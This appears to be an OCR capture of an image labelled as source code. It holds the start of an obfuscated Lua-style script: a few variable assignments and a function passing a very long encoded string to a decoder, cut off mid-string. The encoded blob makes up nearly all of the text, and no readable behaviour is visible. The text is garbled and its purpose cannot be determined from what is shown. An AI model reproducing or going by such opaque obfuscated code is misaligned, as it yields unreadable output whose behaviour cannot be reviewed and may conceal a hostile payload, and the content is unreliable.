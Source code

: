 r=o.gIpqSAYd;local z=o.MUFbfunF;local function ne(c,...)local g=d(e,"wor<C%gR_3+Km,4UU,R}r_4533%h._mHR_<?m_vU3_o<,<_)<_Uf43m3_%<rURKCCKoK,o_mCC3<%_&PK_R#g+%%ooR=Cm<r,33R%R-4R_gCr34m+R%4+KgKo_,*___og,rC,RC C+U%KrgUro,4rK4C3_%=._o<4a3U%_+<g%ozm__O3R<mj+Kg__<,UEKCC_r=,<g_CU3<%g.6K_R;g3%%DmKUC4ro4+3,r+HUm,R4<mU3<KUm+_g8o_orU,K3o_UR,R_Cr(x%K%gorgR<r4473_%eC3r34%Rr%RoC%Ko4m__E<_<ro,,3<_r<U,Kk%,rrKQ3%C%UoKgb<mrR&r_4B,3K3R%rr4R+C*_(Rm,R4mK_+<_Ud+_+mR,<R43+<Ro,TKi3%<+3<CU0;K_RYRKC%emmCRor4,U<o4_+i%_oGm__><_U-+Kg3o_,&___4%,rR++3%Cm^CKRg4KKR+r_4S3_3Kg,<3,+33%gGCR_g%<o_<CrUn+_g %,C<U_gOC_omm333<,!rCK!gK_Rhr_r_U,Kogmr%4+<<4m+i%_o;rU4o+%%%+Kg3o_,y___ogoo,m+_UCm,gKRRgKKR+r_4)3_3rg3r<4<3R%+NUm,R4rm_<CbUA+_gH%4<UU4gECKo34r_%,K+oC_tDK_Kr3,%3K_3%RCr%,K+C%+T3KK<B.K4m33gR+Kg+o_, ___4%,rRK<_%%oUrKog4omR<<C4Z3_%>C3r34%3r%RoCR__<<<43+C%m+Kg3o_,8__3<%,rC,m_3CgURg_<rKKRrr_4I3_KRRYm<_C<v4_+I++R3rU4_+m<<oRm4_mCrUR+mUKK+g_r*,_4<+,Rrr4,%3+Id4cKUR_m<_<<(4_+A33_%<m4U%_Cr1,m+_R<3UgC<bKKfg_r.o+9%morJ9K,__3%rI<K,g3r43_RKC3orK3_Cr,_<CoU1+_gu%3<3U%+rgRrC+U3%Cg3oC_j7K_RIr_4Dm33e&Km3R_<k4_U<K,_r<44%++<_oR,soK,g__C6U_U<,+_%<mU3KmV<m<RFr_4?4KK<R5r%4%3%rKQUmCRU<+_<<UUh+_ghg*CCUmKV<Uo%,mr<,m38C_XPU,,43,C,33%xG_m R_<Jr_rU3_o<4o_5<_U*U%mU_R<4,K+%%KXUKK3CC+U3KggRrKK_3oCCUmK%Rgxo4m+C%++<grotm__=R3%3o%mr_RCC+__ggRrggKrg,_3IC_g<rR,m3R%rAK%<%!m)R_<n% oCmm_!<KK+gRoUo+mo_UU44U+3gmo_,,_rC,c<+,RroK,U3g%CU,K4Rm44,K3U%%mU,8%_r,Uj+m%<,R+KR3CgURg,C,U33%gmCoUrK+gor+43%RC,U3K3Rg4U4K3U%,orKKR%Ug4m+,%o+Kgmo_, ___%gCo%,%_%CgdC_KgUrC,U3+4<+o%e5_mhmg3%%UU<mCR3rm4%++U<m<gzo_,=,C+%%UoomK33U_,_K,gr,_4mC_rrXRm%Rg<CUo%)<4X%m+_<<o4U+gU<+KgQo_,bm,K<g_K<g4rx,_3Z_+gUr,,43m%33K%R{_mIR_RK%RogK3<I<,43<KU++_g6o_o44,KRCKo%mK3CCoUUKg7<K4R#r_4H4gK%RUoC,33r4K+C%_o.m_m<+Rg#rog<rr,=__C9gCoUm3_CCK9CK+g3rg,RrK4C3_%dF_=,,333%g+o%_ofm__q<_Us,m+0oK4R__CnU_Uo,,3CCRKL_4Rro3,,C_rr5Rm%Rg<CUo%Eo.o<mRRU<g+3<3Uf+_gNo_,1__Rr<_K<Rrr ,_3O_+R%<o3TgUCUUmK,g3r4RK<34_+n%_%<<+4%33gC8,+m_o<r_KCRU_Kfg_gK<,93_KgUom,%rK433_%##_oC,,+_%m4<mRRm<RUr<KU3+_gIo_o44,KRCmoUmU_RCCU%CKVgK_Rdr_r<yRKmRR<r+K<<4U+V%_o2r4Ur+R%,U++R%+,<_4CcU_Kf+K_UCgUgKogRKKRmr_4.3_+RRyr34m3%2_U<KK_rr,4%+gU<,Ugjo_,),m+_gor<___gCoUm+,rJrU,o3KL9b_mrRR<C,,3<%m.%Km<9<U43+m%_m_+,_R<UUg3<%,o<__Rg-KK5++R3,_Kg_,CCU,mrg3rm3Kg3ro,33oo<mm_L<_U&oKmU_R<4_KC4U_Kcg_grC,}3g_CCo,,o3mC_K_+<Rmr%4_CR4_+H%_oom__Q<_U<KWgQo_,0,m+U%UoR,C_%r,,3C_(iK_RXrm4#3_%&W_mCR_<14_+)%_oNm_+O%<UX+_gyo_,0_3CqU_mgg_rX,_3rC_^oK_Ry<%4:3_%>s3mBR_<z4_+r%_o m__<<,U6+_g*__CrUo+4gmK<gUr.,_3{_Kgmro,<3<C%Um%#f_mqR_<C4_+F%_rrm4_><_U-+3g>o_,x3+grU_Kog_rr,_3=C_H{m4R^r_493+%7J3mlR_<,4_+F%_oom__u<_U*+_gLo_,X__CBU_Kqg3rn,_3TC_O,K_R9r_4o3_%sT_moR_<p4_+D%_o5m__)<3UP+_g8o_,,__CJU_Kog_rF,_3oC_{?K_Rdr_463_%!(3miR_<j4_+,%_oim__o<_U)+_goo+,l__CeUKK%g_r9,_v}K+g3rg4CrK4R3_% n_k<4C33CKlKK,RCm__t<_UB+mgeo_,n3+CgU_K?g_ro,_3DC_or,+R*r34A3+%:-_m>R_Cg4_+H%_orm__o<_U K%g o_,S_3CBU_KQg_rG,_3TC_{*K_R#r_4o3_%yf_mX_%<*4_+u%3oxm__(<3UN+_g5o_,Q__CdU_Kog_r*,_3b%%}!K_Rzr34L3_%E*3muR_<k4_+v%_ojm__o<_Uh+_gkr%,e__CYU3KVg_rT,33nC_>zK_Rzr_4k3_%oL_m-R_<MU%+*%_oWm3_P<_U(+3gko_,/__COU_Khg_ro,_39C_F?m%R>r_4833%21_m1R3<V4_+X%_o^m__1<_Uo+_gno_,A3%C2U_K*g3rq,_3jC3ArK_RYr_4<3,%:P_my4_+r%oz4mmo<mU_{<_UF4Kmm_o<<U<+%%mKXg_r0,_3CC_xcK__rr44 3_%G?3m R_<eU+mr%_oom__r<_UL+_g?r4,!__CcU+Kcg3r#,_3,C_sAK_Ror_4J3_%^)+maR_<l4K+R%_obm_m<+C%3AKmKR,<C_KC%U_KVg_3;C+U3KgRCK_Ryr_413m%dH_mQ_+<g4_+b%_orm__1<_Yrm+gxo3,0_3CZU_Kag_<g,_3XC_irK_Ror_4f+%%nI_mIR3<e4_+c%_o*m__h<_UH+_gAo_,o__C}U_KFR%rH,_36C3fWK_RFr34r3_%NX_m<RU<04_+n3KRm<o4<+<%%Mmg<o,,V__CJg_rr,o_4Cm39C_zMK_RCr_4*3_gr04m{R_<Z4++a%_o*,++r<_Uo+_goo_,G__CJ{4KMg_r{,+3IC3a9K_R,r_4{3_%oW_mZR_<V4_+)%_o(m__.<_Up+3g#o_,n__C,U_K.g_ro,_3ZC_ZoK_R^r_4L3_%M>_mvR3<&4_+S%_o,m__ <_Uo+_gjo_,o_+CXU_K